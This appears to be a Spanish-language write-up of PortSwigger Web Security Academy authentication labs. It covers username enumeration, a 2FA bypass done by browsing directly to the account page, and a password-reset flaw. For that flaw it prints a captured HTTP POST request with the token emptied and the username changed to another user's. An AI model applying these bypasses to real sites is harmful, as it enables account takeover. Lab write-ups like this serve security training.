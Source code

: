 # Username enumeration via different responses

Para resolver este laboratorio fue basicamente usando el intruder y viendo las respuestas 
diferentes nada que no se hiciera antes ( por eso no pongo nada)
Primero por el user y luego con el password.

# 2FA simple bypass

Para este laboratorio primero entro a la cuenta de wiener pones el codigo de 2FA y te das cuenta cual es la url a la que redirecciona
Despues entras con el usuario carlos te pide el 2FA y pones la redireccion y bypaseas la dirección.

```
https://0ac0005004569ddec0d9b598000300f9.web-security-academy.net/my-account

```
# Password reset broken logic

Para este laboratorio los pasos son con la cuenta de wiener probar como se cambian los passwords nos damos cuenta
que se genera una peticion post

```

POST /forgot-password?temp-forgot-password-token= HTTP/1.1
Host: 0a4500e903bb9d82c0c354c5004200a9.web-security-academy.net
Cookie: session=mHQvAUXSlvYVoQhyaakHp9dEPz0azo43
Content-Length: 85
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a4500e903bb9d82c0c354c5004200a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4500e903bb9d82c0c354c5004200a9.web-security-academy.net/forgot-password?temp-forgot-password-token=LLovPAZYOGV6wJ30Uw7rcfMC7IHTCeif
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

temp-forgot-password-token=&username=carlos&new-password-1=peter&new-password-2=peter

```

Y que se genera un token que se replica abajo y arriba si se borra dicho token aun si se borra genera un cambio de password como en el ejemplo de arriba
ahora solo cambias el username por carlos y listo pudiste cambiar el password de la cuenta de carlos.

















